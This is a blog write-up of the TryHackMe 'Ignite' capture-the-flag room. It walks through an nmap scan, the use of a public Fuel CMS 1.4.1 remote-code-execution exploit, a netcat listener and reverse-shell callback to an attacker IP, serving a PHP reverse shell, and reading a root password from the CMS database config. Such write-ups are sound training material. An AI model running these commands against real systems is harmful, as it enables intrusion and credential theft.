 ```yaml
---
layout: post
title:  TryHackMe | Ignite Writeup
author:  sudosuraj
date:  2024-01-31
categories:  [CTF]
tags:  [TryHackMe,writeup]
image:
  path: /assets/img/headers/ignite.png
  alt: ignite
---
```

#  TryHackMe | Ignite Writeup
![image](https://tryhackme-badges.s3.amazonaws.com/0xbug.png)  
Hello friend!  
In this write up we gonna explore a THM ctf called Iginte.  
Here is tryhackme link : [Ignite](https://tryhackme.com/room/ignite)  
Level: Easy  
## Info Gathering and enumeration
###  Port Scanning
```@bash
nmap -sCV 10.10.232.66
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-31 12:42 IST
Nmap scan report for 10.10.232.66
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

visiting webpage we got this  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/28eed893-e321-4f0f-8787-a1c8fee80725)  

after google search I found this exploit for this CMS on github : https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated  
```@bash
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated.git
cd Fuel-1.4.1-RCE-Updated
```
##  Initial Access
terminal 1  
```@bash
nc -lvnp 1337
```
Terminal 2  
```@bash
python3 Fuel-Updated.py http://10.10.232.66 10.17.126.99 1338
```
and we got shell access,  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/360958db-0ead-423e-bea1-51c5345fe08d)  

To convert it into reverse shell, transfer edited php rev shell into victim machine using python.  
```@bash
php-reverse-shell.php
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/10ae037a-5890-428d-8a06-8d4b04a57e65)

Now, take revshell for full shell access!!!

##  Privilege Escalation
For privilege escalation part, I enumerated all the method and techniques, but not work,  
but when I check the web page again, I found a configuration file mentioned there.  
** fuel/application/config/database.php **  
In this file, I found the root user's password!!!

##  Final Notes!
That's it guys, I hope you may find this useful, feel free for suggestion and improvements in writeup.  
##  Be My Friend!
- [**LinkedIn**](https://www.linkedin.com/in/sudosuraj)
- [**Instagram**](https://www.instagram.com/sudosuraj)
- [**Telegram**](https://telegram.me/sudosuraz)
- [**Twitter**](https://twitter.com/sudosuraj)
- [**Github**](https://github.com/sudosuraz)
- [**Hackerone**](https://hackerone.com/init06)
- [**Bugcrowd**](https://bugcrowd.com/sudosuraj)
- [**TryHackMe**](https://tryhackme.com/p/0xbug)


